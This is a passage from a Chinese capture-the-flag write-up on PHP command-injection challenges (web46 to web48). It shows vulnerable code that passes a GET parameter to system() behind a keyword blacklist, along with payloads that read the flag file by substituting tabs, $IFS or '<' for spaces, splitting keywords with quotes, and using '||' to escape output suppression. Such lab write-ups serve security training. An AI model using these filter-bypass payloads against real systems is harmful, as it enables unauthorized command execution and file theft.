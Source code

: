 **payload**

解法1->`url/?c=tac%09fla?.php%26%26ls`解法2->`url/?c=echo$IFS`tac$IFS*`%0A`
解法3->`url/?c=tac%09fla?.php%0a`

---




## web47 <等于空格 ||解决黑洞
**题目描述**

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**

> 多过滤了一些字符，没有丝毫影响

---
**payload**

解法一二三上同
解法四->`nl<fla''g.php||` nl查看源代码，<代替空格，''分割flag过滤，||解决命令黑洞

---




## web48 没什么软用
**题目描述**

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**
